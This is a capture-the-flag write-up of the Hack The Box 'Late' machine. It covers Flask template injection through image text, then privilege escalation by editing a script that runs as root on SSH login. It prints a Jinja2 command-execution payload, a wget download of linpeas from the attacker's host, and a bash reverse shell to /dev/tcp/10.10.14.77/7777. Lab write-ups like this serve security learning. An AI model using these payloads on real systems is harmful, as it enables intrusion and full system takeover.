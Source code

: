 ```yaml
---
layout: single
title: Late HTB writeup
excerpt: "Easy linux machine in which we exploit flask and edit a script that gets executed by root"
date: 2022-06-26
classes: wide
header:
  teaser: /assets/images/late/icon-late.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - writeup
tags:
  - hackthebox
  - flask
  - PATH
---
```


![](/assets/images/late/late.png)

# LATE
### User flag

Normal nmap and fuzzing nothing really appears

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```
I started inspecting the page and found a virtual host images.late.htb so I added it to /etc/hosts to inspects it too. The trick here is that the back-end uses flask (as the web page shows) so I created an image with text in gimp that said \{\{5*5\}\} and the text file returned 25 so now we have RCE. I searched for flask RCE commands on the web and found [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md).

So I created various payloads with
```python
{ { self._TemplateReference__context.cycler.__init__.__globals__.os.popen('command').read() } }
```
 I found out with whoami I was the user named svc_acc. I looked around his home and got his ssh key into my machine obtaining the user flag.

### Root flag

Once in the machine I downloaded linpeas.sh from my machine with

```bash
[kali@kali ~]$ python3 -m http.server 7777
...
svc_acc@late:/tmp$ wget 10.10.14.77:7777/linepeas.sh
chmod a+x linpeas.sh > result
less -r result
```

while reading the results the $PATH appears in orange multiple times so I visited the /usr/local/sbin and saw the file ssh-alert.sh. As the code and the name of the file indicates it seems it gets executed by root every time someone logs by ssh so I concatenated a reverse shell bash shell and connected again gaining access to root.

```bash
bash -i >& /dev/tcp/10.10.14.77/7777 0>&1
```
